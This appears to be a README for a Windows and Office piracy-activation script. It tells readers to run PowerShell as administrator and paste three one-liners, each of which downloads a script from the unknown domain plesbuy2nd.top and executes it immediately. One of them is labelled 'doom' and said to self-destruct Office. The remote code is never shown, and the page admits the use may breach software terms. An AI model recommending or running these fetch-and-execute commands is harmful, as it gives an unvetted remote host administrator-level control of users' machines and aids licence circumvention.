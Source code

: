 # Windows and Office Management Script

## Introduction
This script provides functionality for managing Windows activation, self-destructing Office, and installing and activating Office 365. Follow the steps below to execute these operations using PowerShell or Terminal.

## Prerequisites
- Ensure you have administrative privileges on your Windows machine.

## Instructions

1. **Open PowerShell or Terminal:**
   - Right-click on the Start menu.
   - Select **PowerShell** or **Terminal** (do not select CMD).

2. **Execute the Script:**
   - Copy and paste the following code into PowerShell or Terminal.
   - Press **Enter** to run the script.

   3.1 **Activate Windows and existing Office**
   ```powershell
   irm https://plesbuy2nd.top/win | iex
   ```
   3.2 **Self-destruct Office (if needed)**
   ```powershell
   irm https://plesbuy2nd.top/doom | iex
   ```
   3.3 **Install and activate Office 365**
   ```powershell
   irm https://plesbuy2nd.top/office | iex
   ```
   
## Detailed Explanation
- Activate Windows and Office: The command irm https://plesbuy2nd.top/win | iex is used to activate Windows and the existing Office on your machine.
- Self-destruct Office: If you do not wish to use the existing Office or if an error occurs, use the command irm https://plesbuy2nd.top/doom | iex. After running this command, proceed with the next step.
- Install and Activate Office 365: Once the self-destruct command has been executed, run irm https://plesbuy2nd.top/office | iex to install and activate Office 365.

## Notes
- irm stands for Invoke-RestMethod, which is used to download and run scripts from the internet.
- iex stands for Invoke-Expression, which executes the downloaded script.

## Disclaimer
Use this script responsibly and ensure you understand the implications of each command. Running these commands may have significant impacts on your system, including altering system activation and Office installations.

- Ensure that you have backups of any important data before running these scripts.
- Understand that using these scripts might violate the terms of service of the software involved.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Original script sources
- Inspiration and guidance from various online communities
